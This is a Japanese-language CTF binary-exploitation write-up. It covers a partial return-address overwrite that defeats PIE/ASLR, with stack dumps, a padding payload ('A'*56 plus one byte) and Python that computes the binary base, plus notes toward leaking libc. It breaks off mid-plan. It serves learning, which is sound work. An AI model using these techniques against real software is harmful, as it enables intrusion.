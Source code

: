 
上記までが大会参加中の私の脳内ダンプであり、下記はwriteup参照後のダンプとなる。

---

どうやら、PIEとASLRが有効でも、コード領域の下位1バイト(正確には下位12bit?)のみは固定らしい
つまりリターンアドレスの1バイトのみを上書きして、`vuln`を再実行することができる。同時にリターンアドレスのリークも可能なので、固定の下位1バイト+リークしたリターンアドレスを組み合わせて最終的にバイナリベースを算出できる。


`vuln`の`read`後のスタック
```
0x7fff8f009850: 0x4242424242424242      0x00007df7b828160a
0x7fff8f009860: 0x0000000000000000      0x00007fff8f009890
0x7fff8f009870: 0x00007fff8f0099a8      0x00005bf568fb71dc
0x7fff8f009880: 0x00007fff8f009890      0x00005bf568fb722b
```

1回目の`main`のリターンアドレス
```
   0x00005bf568fb7221 <+69>:    call   0x5bf568fb7050 <alarm@plt>
   0x00005bf568fb7226 <+74>:    call   0x5bf568fb7179 <vuln>
   0x00005bf568fb722b <+79>:    mov    eax,0x0
```
2回目
```
   0x000061d329327221 <+69>:    call   0x61d329327050 <alarm@plt>
   0x000061d329327226 <+74>:    call   0x61d329327179 <vuln>
   0x000061d32932722b <+79>:    mov    eax,0x0
```
3回目
```
   0x000056a6d0bd9221 <+69>:    call   0x56a6d0bd9050 <alarm@plt>
   0x000056a6d0bd9226 <+74>:    call   0x56a6d0bd9179 <vuln>
   0x000056a6d0bd922b <+79>:    mov    eax,0x0
```


そういえばバイナリベースは`0x1000`にアラインされている -> ということは、下位12bitのみはかならず0になる -> 下位12bitより上はページアライン的にランダムだが、下位12bitは000に固定のオフセットを足すのと同じなので、結果として下位12bitは固定になっていると分かった。

つまり、`'A' * 56 + 0x26(call vuln命令の下位1バイト)`を入力として与えれば
- リターンアドレスを上書きして`main`にある`call vuln`を再実行
- かつ、リターンアドレスまでのデータが連続しているので、`printf`で`message`の内容としてリターンアドレスをリーク可能

リークしたリターンアドレスの下位1バイトが掛けている(vulnの1バイトで上書きしている)が、0x2bなのは自明。リークした値を8bit左にシフトして、`0x2b`を足し合わせれば元のリターンアドレスになる。バイナリベースは、`call main`の次の命令がリターンアドレスなので、その相対オフセット`0x122b`を正規のリターンアドレスから引けば求まる。
```python
retaddr = (data << 8) + 0x2b
elf.address = retaddr - 0x122b
```

次に`libc`のベースを見つけたい。バッファの容量は64バイトしかないことに注意
`chall`ではなく、`chall_patched`だと、`vuln`の`ret`直前に、`rdi`が`libc`のシンボルのアドレスを持っていた。
`*RDI  0x7ffdc76ea5e0 —▸ 0x7eabe9262050 (funlockfile) ◂— endbr64 `


vulnのret直前、rdiがlibcのシンボル(funlockfile)というアドレスを持っていた。
これをリターンアドレスを書き換えて、`puts`直前に飛ばせば、アドレスがリークするかもしれない。
通常の`chall`だとこのような挙動にならず、`chall_patched`のみ確認できた。おそらく`libc`のバージョンに依存しているのだと思われる。
